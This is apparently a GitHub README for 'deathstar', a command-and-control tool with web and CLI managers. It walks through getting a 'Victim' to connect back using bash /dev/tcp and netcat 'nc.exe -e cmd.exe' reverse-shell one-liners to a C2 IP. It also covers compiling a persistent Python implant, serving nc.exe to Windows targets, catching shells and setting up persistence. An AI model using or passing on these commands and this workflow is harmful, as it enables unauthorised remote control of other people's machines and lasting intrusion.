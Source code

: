 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/e01272a6-1e5a-416c-8b56-45460317a349)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - BASH
      - This will drop the moment the C2 server 'drops'
          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
        - This will drop the moment the C2 server 'drops'
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and select an OS from the drop down, then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - BASH
      - This will drop the moment the C2 server 'drops'
          - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
      - Python reverse shell
          - This will continue to connect to the C2 server even after it 'drops'
          - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
          - `bash converter.sh stardestroyer.py`
          - Copy `stardestoryer` to VICTIM
          - `chmod +x stardestroyer`
          - `./stardestroyer`
    - Windows
        - NETCAT
        - This will drop the moment the C2 server 'drops'
            - `C:\Windows\Temp\nc.exe -e cmd.exe $C2-IP 9999`
        - If your C2 OS is Kali, you can host a python http.server with nc.exe and run `stardestroyer.ps1`
            - On Kali
                - `find / -name nc.exe 2>/dev/null`
                - `sudo cp /usr/share/windows-resources/binaries/nc.exe .`
                - `python3 -m http.server 80`
            - On Windows
                - Powershell.exe
                - `.\stardestroyer.ps1`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.


